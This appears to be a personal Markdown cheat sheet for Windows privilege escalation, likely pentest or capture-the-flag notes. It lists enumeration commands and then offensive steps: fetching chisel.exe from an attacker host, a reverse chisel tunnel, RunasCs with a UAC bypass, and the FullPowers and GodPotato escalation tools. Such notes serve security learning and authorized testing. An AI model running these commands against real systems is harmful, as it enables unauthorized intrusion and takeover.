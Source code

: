 ```yaml
---
title: Windows
---
```


# Windows Privilege Escalation
## Enum tools
- [Win Peas](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS)

## Resources
- [hacktricks (windows)](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation)

## Basic Enum
### Powershell
```powershell
# System info
sysinfo
Get-CimInstance -ClassName Win32_OperatingSystem | Select-Object Name, Version, OSArchitecture
Get-CimInstance -ClassName Win32_BIOS | Select-Object Name, Version

# User/Group/Permission info
whoami
whoami /priv
whoami /groups
net share
net user
net user SomeAccount
net localgroup
net localgroup Administrators
net session
net config workstation
Get-WmiObject -Class Win32_UserAccount -Filter "LocalAccount='True'"

# Ports used
netstat -ano

# Scheduled tasks
Get-ScheduledTask
Get-ScheduledTask | where {$_.Principal.UserId -eq "NT AUTHORITY\SYSTEM"}
Get-ScheduledTask | ForEach-Object { [PSCustomObject]@{ TaskName = $_.TaskName; Action = ($_.Actions).Execute } }
Get-ScheduledTask | Where-Object { $_.Principal.LogonType -eq 'InteractiveTokenOrPassword' }

# Processes/Services
Get-Process
Get-Service
Get-Service | Where-Object {$_.Status -eq "Running"}
Get-WmiObject win32_service | Where-Object {$_.StartName -like "NT Authority*"}

# Check installed Software
Get-ItemProperty HKLM:\Software\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\* | Select-Object DisplayName, DisplayVersion, Publisher, InstallDate
Get-CimInstance -ClassName Win32_Product | Select-Object Name, Version
```

## Utils
### Powershel http fetch
```powershell
Invoke-WebRequest -Uri "http://10.10.10.10:8000/chisel.exe" -OutFile "chisel.exe"
```

### Chisel port forwarding
```powershell
# Attacker
chisel server -p 8000 --reverse

# Victim
chisel client http://x.x.x.x:8000 R:9200:127.0.0.1:9200
```

## runas
```batch
runas /user:Administrator cmd.exe
```
### RunasCs
- [RunasCs](https://github.com/antonioCoco/RunasCs)
```powershell
.\RunasCs.exe user password "shell.exe" --bypass-uac --logon-type 8
```

## FullPowers
When `LocalService` or `NetworkService`
- [Fullpowers](https://github.com/itm4n/FullPowers)

```powershell
.\FullPowers.exe -x
```

## GodPotato
When `ImpersonatePrivilege`
- [GodPotato](https://github.com/BeichenDream/GodPotato)

```powershell
.\GodPotato.exe -cmd "cmd /c whoami"
```
